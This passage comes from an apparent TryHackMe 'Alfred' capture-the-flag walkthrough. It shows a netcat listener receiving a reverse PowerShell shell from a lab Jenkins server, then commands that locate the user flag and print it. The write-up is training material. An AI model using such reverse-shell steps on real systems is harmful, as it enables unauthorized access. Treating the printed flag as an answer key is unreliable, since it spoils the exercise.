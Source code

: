 ![](../assets/images/tryhackme/offensive_pentesting/alfred/jenkins2.png)

This should run our malicious powershell command and you should get a shell.

```bash
root@ip-10-10-13-148:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.34.64 49349 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Find the user flag:

```bash
PS C:\Users> Get-ChildItem -Recurse -Filter 'user.txt'


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        10/25/2019  11:22 PM         32 user.txt
```

```bash
PS C:\Users> type C:\Users\bruce\Desktop\user.txt
79007a09481963edf2e1321abd9ae2a0
```

## Switching Shells

